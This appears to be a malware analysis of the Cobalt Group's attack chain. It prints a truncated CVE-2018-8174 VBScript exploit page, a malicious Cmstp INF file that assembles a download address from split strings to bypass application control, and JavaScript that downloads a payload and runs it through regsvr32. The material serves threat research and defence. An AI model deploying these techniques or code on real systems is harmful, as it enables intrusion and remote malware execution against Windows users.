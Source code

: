 # Cobalt Group

## Features

1. Exploit the Internet Explorer vulnerability triggered by RTF documents and embedded URL moniker objects (CVE-2018-8174). After triggering the embedded object, the HTML page containing the VBS exploited by the vulnerability will be downloaded and executed. Its HTML code is based on Github's public vulnerability exploit code.

```html
<!doctype html>
<html lang="en">
<head>
<meta http-equiv="Content-Type" content="text/html; charset=UTF-8">
<meta http-equiv="x-ua-compatible" content="IE=10">
<meta http-equiv="Expires" content="0">
<meta http-equiv="Pragma" content="no-cache">
<meta http-equiv="Cache-control" content="no-cache">
<meta http-equiv="Cache" content="no-cache">
</head>
<body>
<script language="vbscript">
Dim lIIl
Dim IIIlI(6),IllII(6)
Dim IllI
Dim IIllI(40)
Dim lIlIIl,lIIIll
Dim IlII
Dim llll,IIIIl
Dim llllIl,IlIIII
Dim ntAAA,vpaa
IlII=195948557
lIlIIl=Unescape("%u0001%u0880%u0001%u0000%u0000%u0000%u0000%u0000%uffff%u7fff%u0000%u0000")
lIIIll=Unescape("%u0000%u0000%u0000%u0000%u0000%u0000%u0000%u0000")
IllI=195890093
Function IIIII(dnnnnn)
lIlII=0
IllllI=0
IIlIIl=0
```

2. Use the Cmstp program to bypass the application control policy of Windows. Cmstp can use the INF file as a parameter and install the service configuration file for remote access connection. It can use the malicious INF file as a parameter for downloading and executing remote code.

```info
[ version ]
Signature=$chicagos$
AdvancedINF=2.5
[ DefaultInstall_SingleUser ]  //Install single user by default
UnRegisterOCXs=KHkDBoaZoahhZK
[ KHkDBoaZoahhZK ]
%11%\%urmIgcSCJgGmuD_1%%urmIgcSCJgGmuD_2%%urmIgcSCJgGmuD_3%,NI,%BqWxxGj_0%%BqWxxGj_1%%BqWxxGj_2%%BqWxxGj_3%%BqWxxGj_4%%BqWxxGj_5%%BqWxxGj_6%%BqWxxGj_7%%BqWxxGj_8%%BqWxxGj_9%%BqWxxGj_10%%BqWxxGj_11%%BqWxxGj_12%%BqWxxGj_13%%
[ Strings ]
AppAct="SOFTWARE\Microsoft\Connection Manager"  //Application operation
urmIgeSCJgGmuD_2="r0"
urmIgcSCJgGmuD_1="sC"
urmIgcSCJgGmuD_3="bJ"
//Splice download address
BqWxxGj_e="ht"
BqWxxGj_1="tp"
BqWxxGj_2=":/"
BqWxxGj_3="/9"
BqWxxGj_4="5."
BqWxxGj_5="14"
BqWxxGj_6="2."
BqWxxGj_7="39"
BqWxxGj_8=".1"
BqWxxGj_9="09"
BqWxxGj_10="/a"
BqWxxGj_11="3."
BqWxxGj_12="tx"
BqWxxGj_13="t"
ServiceName=" "
ShortSvcName=" "
```

3. When downloading, a JavaScript will be used to download the final payload.

```JavaScript
function hit() {
       var x1;
       var Note;
       var Sp;
       var saveTo = ' ';
       var comm = ' ';
       var mLink = 'https://domain/version.txt';
       var xx1 ='regsvr32 /S /N /U /I:';
       saveTo = myEnv('APPDATA') + '\\';
       {
              var e11;
              try {
                   x1 = obj('WScript.Shell');
                   Note = x1.RegRead(xStore);
                   if (Note) {
	       if (Note.indexof(',') !== -1) {
                           Sp = Note.split(',');
                           saveTo += Sp[0] + '.txt';
                       } else {
	            saveTo += tExtra( );
	       }
	  } else {
	       saveTo += tExtra();
                  }
            } catch (_e11) {
	 e11 = _e11;
	 {
	        saveTo += tExtra( );
	 }
            }
        }
       var dq = '"';
       comm = xx1 + dq + saveTo + dq + ' sCrobJ';
       if (fexist(saveTo) === false) {
           if (pnow(mLink, saveTo) ===true) {
               if (xGo(comm) === true) {
	   return true;
               }
           }
      } else {
           if (xGo(comm) === true) {
               return true;
           }
      }
}
```
